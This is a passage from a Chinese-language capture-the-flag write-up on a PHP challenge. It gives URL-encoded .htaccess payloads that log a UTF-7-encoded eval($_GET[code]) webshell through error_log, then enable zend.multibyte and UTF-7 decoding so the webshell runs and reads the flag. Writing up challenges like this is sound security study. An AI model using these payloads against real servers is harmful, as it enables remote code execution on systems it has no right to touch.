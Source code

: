 而URL编码处理后payload则是：

```
?filename=.htaccess&content=php_value  include_path "/tmp/%2bADw-%3fphp  eval($_GET[code]);__halt_compiler();"%0d%0aphp_value error_reporting  32767%0d%0aphp_value error_log /tmp/fl3g.php%0d%0a%23\
```

接着我们再访问一次触发include包含的错误路径并记录在日志中，然后我们就需要再写入一个新的.htaccess文件设置让日志中我们的UTF-7编码能够被解码，从而我们PHP代码才能被解析。

![img](assets/2293037-20210711105345787-1359566987.png)

 

zend.multibyte决定是否开启编码的检测和解析，zend.script_encoding决定采用什么编码，所以我们需要写入的第二个.htaccess文件如下。

![img](assets/2293037-20210711141314424-155101893.png)

  URL编码后的payload：

```
php_value include_path "/tmp"%0d%0aphp_value  zend.multibyte 1%0d%0aphp_value zend.script_encoding "UTF-7"%0d%0a%23\
```

接着我们便可以来使用一句话了来读取flag了，需要注意的是题目源码说明会删除当前目录下非index.php的所有文件，所以我们再使用一句话之前必须得传一遍第二个.htaccess文件的内容(.htaccess中的设置会在PHP文件执行之前被加载，所以不用担心删除导致.htaccess在本次访问时不生效)。

![img](assets/2293037-20210711142008436-454473122.png)
